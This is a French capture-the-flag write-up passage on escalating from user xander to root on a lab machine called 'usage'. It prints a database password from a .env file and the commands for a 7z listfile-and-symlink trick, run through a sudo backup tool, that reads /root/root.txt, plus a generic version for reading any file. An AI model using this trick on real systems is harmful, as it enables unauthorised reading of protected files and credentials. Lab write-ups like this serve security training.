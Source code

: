 ## xander -> root

### mysql password
Dans le fichier .env du site web :
```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=usage_blog
DB_USERNAME=staff
DB_PASSWORD=s3cr3t_c0d3d_1uth
```

### Backup script as root
Voir references pour comprendre l'exploit. Mais en gros on peut faire sudo d'une commande qui fait la backup du site web. Donc des fichiers dans /var/www/html. On peut créer un lien symbolique vers le fichier du flag /root/root.txt et grâce à une faille, avec un fichier @root.txt et à l'execution de 7z, on peut recuperer l'interieur du fichier. Voir references hacktricks.
```bash
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7513 32-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54851331

Scanning the drive:
          
WARNING: No more files
0e99.....4e1b

2984 folders, 17981 files, 114323032 bytes (110 MiB)                         
```

## References
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
